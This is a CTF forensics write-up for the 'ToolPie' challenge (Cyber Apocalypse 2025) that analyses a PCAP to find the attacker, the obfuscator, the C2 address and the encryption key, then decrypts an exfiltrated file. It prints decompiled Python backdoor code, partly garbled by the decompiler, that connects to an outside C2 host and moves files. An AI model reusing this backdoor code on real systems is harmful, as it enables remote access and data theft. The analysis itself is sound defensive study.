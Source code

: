 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2025 | ToolPie Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2025
parent: cyber_apocalypse_2025
category: forensics
challenge: ToolPie
tags: "forensics, twh, pcap, wireshark, tshark, python, obfuscation, aes"
date: 2025-03-29T00:00:00+00:00
last_update: 2025-03-29T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2025</h1>


## ToolPie
> Solved by thewhiteh4t


- We were given a PCAP in this challenge


- What is the IP address responsible for compromising the website?
    - Based on POST requests in the PCAP : `194.59.6.66`
- What is the name of the endpoint exploited by the attacker?
    - Based on POST requests : `/execute`
- What is the name of the obfuscation tool used by the attacker?
    - Simply printing the script found above shows a code object which contains a string : `Py-Fuscate`

```    
    # replaced exec() with print()
    > python chal.py
    <code object <module> at 0x555555605650, file "Py-Fuscate", line 1>
```

- What is the IP address and port used by the malware to establish a connection with the Command and Control (C2) server?
    - To find this first we need to get the plain text code, what we have is a `python code object`, we can create `pyc` file which is bytecode and get plaintext from it using tools like `uncompyle6`, `decompyle3` or `pycdc`
    - However none of the tools worked due to python version mismatch, so I found `pylingual`
    - in the code we can see the IP and port : `13.61.7.218:55155`

```
    # Decompiled with PyLingual (https://pylingual.io)
    # Internal filename: Py-Fuscate
    # Bytecode version: 3.13.0rc3 (3571)
    # Source timestamp: 2025-03-24 20:26:54 UTC (1742848014)
    from os import popen
    pass
    pass
    import socket
    import threading
    import os
    import time
    import random
    import string
    from Crypto.Cipher import AES
    from Crypto.Util.Padding import pad, unpad
    user = os.popen('whoami').read()
    BUFFER_SIZE = 4096
    SEPARATOR = '<SEPARATOR>'
    CONN = True
    def enc_mes(mes, key):
        try:
            cypher = AES.new(key.encode(), AES.MODE_CBC, key.encode())
            cypher_block = 16
            mes = mes.encode() if type(mes)!= bytes else mes
            return cypher.encrypt(pad(mes, cypher_block))
        except:
            return None
    def dec_file_mes(mes, key):
        cypher = AES.new(key.encode(), AES.MODE_CBC, key.encode())
        cypher_block = 16
        s = cypher.decrypt(mes)
        return unpad(s, cypher_block)
    def dec_mes(mes, key):
        if mes == b'':
            return mes
    def receive_file():
        try:
            client2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            client2.connect(('13.61.7.218', 54163))
            k = ''.join((random.SystemRandom().choice(string.ascii_letters + string.digits) for _ in range(16)))
            client2.send(k.encode())
            pass
            enc_received = client2.recv(BUFFER_SIZE)
            received = dec_mes(enc_received, k).decode()
            filename, filesize = received.split(SEPARATOR)
            ok_enc = enc_mes('ok2', k)
            client2.send(ok_enc)
            total_bytes = 0
            msg = b''
            if total_bytes < int(filesize):
                bytes_read = client2.recv(BUFFER_SIZE)
                msg += bytes_read
                total_bytes += len(bytes_read)
            decr_file = dec_mes(msg, k)
            with open(filename, 'wb') as f:
                f.write(decr_file)
                    pass
                    client2.close()
        except:
            pass  # postinserted
        client2.send('Error transporting file'.encode())
    def receive(client, k):
        pass
        try:
            pass  # postinserted
        s += 1
        msg = client.recv(1024)
        raise Exception('Reconnect!') if s == 300 else True if msg == b'' else False
        except:
            pass  # postinserted
        pass
        try:
            pass  # postinserted
        client.close()
        client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        client.connect(('13.61.7.218', 55155))
        k = ''.join((random.SystemRandom().choice(string.ascii_letters + string.digits) for _ in range(16)))
        client.send(f'{user}{SEPARATOR}{k}'.encode())
        client.settimeout(600)
        time.sleep(60)
        except:
            time.sleep(60)
    if __name__ == '__main__':
        pass
        try:
            pass  # postinserted
        client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        client.connect(('13.61.7.218', 55155))
        k = ''.join((random.SystemRandom().choice(string.ascii_letters + string.digits) for _ in range(16)))
        client.send(f'{user}{SEPARATOR}{k}'.encode())
        client.settimeout(600)
        break
        receive_thread = threading.Thread(target=receive, args=(client, k))
        receive_thread.start()
    except:
        pass  # postinserted
    time.sleep(50)
```

- What encryption key did the attacker use to secure the data?
    - In the code we can see where the key is sent : `client.send(f'{user}{SEPARATOR}{k}'.encode())`
    - we can look for this pattern in the PCAP : `ec2amaz-bktvi3e\administrator\n5UUfizsRsP7oOCAq` so the key is : `5UUfizsRsP7oOCAq`


- What is the MD5 hash of the file exfiltrated by the attacker?
    - Since we have the key, we can write our own decryption script
    - first we need to extract data chunks from the PCAP using `tshark -2 -r capture.pcap -R "tcp.stream eq 4 and data.data" -T fields -e data.data > datafile.txt`
    - now we can write a script to parse data chunks and decrypt the stolen files

```
    from Crypto.Cipher import AES
    from Crypto.Util.Padding import unpad
    
    def dec_file_mes(mes, key):
        cypher = AES.new(key.encode(), AES.MODE_CBC, key.encode())
        cypher_block = 16
        s = cypher.decrypt(mes)
        return unpad(s, cypher_block)
    
    key = '5UUfizsRsP7oOCAq'
    
    filename = None
    size = 0
    container = b''
    filling = False
    got_size = False
    
    with open('datafile.txt') as encfile:
        hex_lines = encfile.readlines()
        for line in hex_lines:
            got_name = False
            if filename:
                got_name = True
    
            msg = bytes.fromhex(line)
            if b'SEPARATOR' in msg:
                continue
    
            if not filling:
                decr_file = dec_file_mes(msg, key)
                if b'C:' in decr_file:
                    filename = decr_file.decode().split('\\')[-1]
                    print('[+] Filename : ', filename)
                if got_name and not got_size:
                    if int(decr_file.decode()):
                        size = int(decr_file.decode())
                        print('[+] File Size : ', size)
                        got_size = True
                if size and b'ok' in decr_file:  # handle last ok msg after size
                    filling = True
            else:
                if len(container) != size:
                    container += msg
    
        decr_file = dec_file_mes(container, key)
        print(f'[+] Writing : {filename}')
        with open(filename, 'wb') as outfile:
            outfile.write(decr_file)
```    


![](https://i.imgur.com/8nMLOhx.png)


MD5 Hash : `8fde053c8e79cf7e03599d559f90b321`


